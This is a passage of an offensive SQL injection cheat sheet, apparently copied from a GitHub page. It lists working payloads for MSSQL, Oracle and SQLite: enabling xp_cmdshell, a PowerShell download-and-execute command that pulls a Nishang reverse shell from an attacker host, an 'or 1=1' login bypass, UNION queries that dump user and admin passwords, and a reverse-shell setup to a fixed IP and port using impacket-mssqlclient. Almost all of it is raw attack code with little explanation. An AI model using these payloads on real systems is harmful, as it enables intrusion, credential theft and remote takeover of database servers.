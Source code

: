 -> Enable xp_cmdshell
```
' UNION SELECT 1, null; EXEC sp_configure 'show advanced options', 1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE;--
```

-> RCE
```
' exec xp_cmdshell "powershell IEX (New-Object Net.WebClient).DownloadString('http://<ip>/InvokePowerShellTcp.ps1')" ;--
```
https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1


### Oracle SQL

-> Bypass Authentication
```
' or 1=1--
```

-> Exploiting
```
' order by 3--
' union select null,table_name,null from all_tables--
' union select null,column_name,null from all_tab_columns where table_name='WEB_USERS'--
' union select null,column_name,null from all_tab_columns where table_name='WEB_ADMINS'--
' union select null,PASSWORD||USER_ID||USER_NAME,null from WEB_USERS--
' union select null,PASSWORD,null from WEB_ADMINS--
```

### SQLite Injection
-> extracting table names, not displaying standard sqlite tables
```
http://site.com/index.php?id=-1 union select 1,2,3,group_concat(tbl_name),4 FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'--
```
-> extracting table users  
```
http://site.com/index.php?id=-1 union select 1,2,3,group_concat(password),5 FROM users--
```

-> Reference  
https://www.exploit-db.com/docs/english/41397-injecting-sqlite-database-based-applications.pdf

### Abuse MSSQL

-> edit Invoke-PowerShellTcp.ps1, adding this:  
```
Invoke-PowerShellTcp -Reverse -IPAddress 192.168.254.226 -Port 4444
```
```
impacket-mssqlclient <user>@<ip> -db <database>
```
```
xp_cmdshell powershell IEX(New-Object Net.webclient).downloadString(\"http://<ip>/Invoke-PowerShellTcp.ps1\")
```
https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1
